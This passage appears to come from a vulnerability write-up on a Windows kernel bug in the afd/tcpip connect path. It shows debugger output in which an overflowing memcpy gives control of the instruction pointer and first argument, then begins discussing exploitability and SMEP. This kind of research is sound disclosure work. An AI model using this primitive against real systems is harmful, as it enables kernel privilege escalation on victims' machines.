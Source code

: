 Prior to the vulnerable `memcpy`:

```
kd> dq rax + f8 L2
ffffac8e`6702a138  fffff806`2d0db540 ffffac8e`6841c9e0
kd> ln fffff806`2d0db540
    (fffff806`2d0db540)   afd!AfdTLBufferedSendComplete
```

After the vulnerable `memcpy`:

```
kd> dq ffffac8e`6702a138 L2
ffffac8e`6702a138  13371337`13371337 deaddead`deaddead
```

The call to `tcpip!TcpTlProviderConnectAndSend` eventually fails, returning a status code of `STATUS_INVALID_ADDRESS_COMPONENT`,
but not before trying to "complete" the request, by calling the callback function pointer, passing its callback context as the first argument.

```
Breakpoint 3 hit
tcpip!guard_dispatch_icall_nop:
fffff803`11e36490 ffe0            jmp     rax
kd> r rax, rcx
rax=1337133713371337 rcx=deaddeaddeaddead
kd> k
 # Child-SP          RetAddr           Call Site
00 ffffeb0f`32dc18e8 fffff803`11d767fd tcpip!guard_dispatch_icall_nop
01 ffffeb0f`32dc18f0 fffff803`11d73840 tcpip!TcpCreateAndConnectTcbComplete+0xc39
02 ffffeb0f`32dc1b30 fffff803`11d88e2a tcpip!TcpShutdownTcb+0x1040
03 ffffeb0f`32dc1f20 fffff803`11d88d38 tcpip!TcpCreateAndConnectTcbInspectConnectComplete+0xba
04 ffffeb0f`32dc2000 fffff803`11d87be8 tcpip!TcpContinueCreateAndConnect+0x1044
05 ffffeb0f`32dc2220 fffff803`11d87998 tcpip!TcpCreateAndConnectTcbInspectConnectRequestComplete+0x118
06 ffffeb0f`32dc2330 fffff803`11d8709d tcpip!TcpCreateAndConnectTcbWorkQueueRoutine+0x8a8
07 ffffeb0f`32dc2450 fffff803`11ea2247 tcpip!TcpCreateAndConnectTcb+0xcb5
08 ffffeb0f`32dc25d0 fffff803`11995606 tcpip!TcpTlProviderConnectAndSend+0x17
09 ffffeb0f`32dc2600 fffff803`1198958d afd!AfdSuperConnect+0x10b26
```

## Exploitability, Mitigations and Complications

As we have seen, the vulnerability gives us full control of the instruction pointer `rip` and the first argument `rcx`, and does so by calling into a function pointer we can freely choose.
A vulnerability this good is almost always exploitable. But we first have to jump through some loops...

### SMEP (Supervisor Mode Execution Prevention)
The simplest idea to exploit a bug of this kind would be to set the instruction pointer to a user space address,
i.e write some shellcode that when executed in kernel mode will elevate permissions of the current process.
Sadly, Intel thought of this long ago and introduced SMEP.
SMEP uses the fact that user-pages have the `USER` flag set in the page tables to throw an exception
when the kernel executes any user address.

